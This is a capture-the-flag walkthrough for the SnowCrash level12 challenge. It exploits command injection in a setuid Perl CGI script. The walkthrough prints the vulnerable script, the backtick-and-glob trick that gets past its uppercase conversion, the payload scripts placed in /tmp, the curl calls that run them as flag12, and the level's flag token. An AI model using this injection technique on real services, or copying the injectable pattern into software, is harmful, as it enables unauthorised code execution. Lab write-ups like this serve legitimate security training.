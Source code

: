 ## level12

We got ourselves another Perl script:

```bash
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param}; # import param function
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # second argument passed to the subroutine
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; # convert to uppercase
  $xx =~ s/\s.*//; # discards everything following the first space
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # the symbol @ stands for array
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

So the script grabs the `x` parameter, makes it uppercase and trims off everything following the first space. The subroutine `n` will inform us with `..` or `.` if the parameters were listed in a file in `/tmp` folder. It turns out that this is just noise: what we want is to execute code as `flag12` when it calls `egrep`.

A quick check on the Apache configuration shows that the script is indeed called on the port `4646`

```bash
level12@SnowCrash:~$ cat /etc/apache2/sites-enabled/level12.conf
<VirtualHost *:4646>
	DocumentRoot	/var/www/level12/
	SuexecUserGroup flag12 level12
	<Directory /var/www/level12>
		Options +ExecCGI
		DirectoryIndex level12.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

Yet again the subtlety is at what point (and therefore with which user) a command is executed. Check this out:

```bash
level12@SnowCrash:~$ echo "whoami > /tmp/me" > /tmp/whoami
level12@SnowCrash:~$ chmod 777 /tmp/whoami
level12@SnowCrash:~$ ./level12.pl x="`/tmp/whoami`"
Content-type: text/html

..level12@SnowCrash:~cat /tmp/me
level12
```

I’m making a script that calls `whoami` and redirects the output to `/tmp/me`. I know that the script is going to uppercase the parameter but… the script just worked.

Why? Because the expression in backticks ```` was evaluated ***before***. If I make sure that the argument is passed as it is...

```bash
level12@SnowCrash:~$ ./level12.pl x='`/tmp/whoami`' # added single quotes
Content-type: text/html

sh: 1: /TMP/WHOAMI: not found
```

From the error message I see that now it is indeed looking for the uppercase version!

I can easily capitalize my script, but what about about the directory? I can’t write in any but `/tmp`, I can’t create a capitalized directory in the root. Luckily, `*` will expand to any directory containing what follows, so `/*/WHOAMI` will expand to `/tmp/whoami`.

```bash
level12@SnowCrash:~$ cp /tmp/whoami /tmp/WHOAMI
level12@SnowCrash:~$ ./level12.pl x='`/*/WHOAMI`'
Content-type: text/html

..level12@SnowCrash:~cat /tmp/me
level12
```

Still not the user we wanted… but the script was called.

Let’s now talk to it through Apache, since the config says `SuexecUserGroup flag12 level12` so it’s definitely be ran as `flag12`.

```bash
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/WHOAMI`'
..level12@SnowCrash:~cat /tmp/me
flag12
```

I guess it’s time to ask the right question then…

```bash
# Creating capitalized script and opening permissions
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/GETFLAG
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
# Running it as level12 to check that it works
level12@SnowCrash:~$ /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)

# Running through the script served by Apache
# Calling getflag and not GETFLAG to show that it gets indeed capitalized
# The script is /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/getflag`'
..level12@SnowCrash:~$at /tmp/flag`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```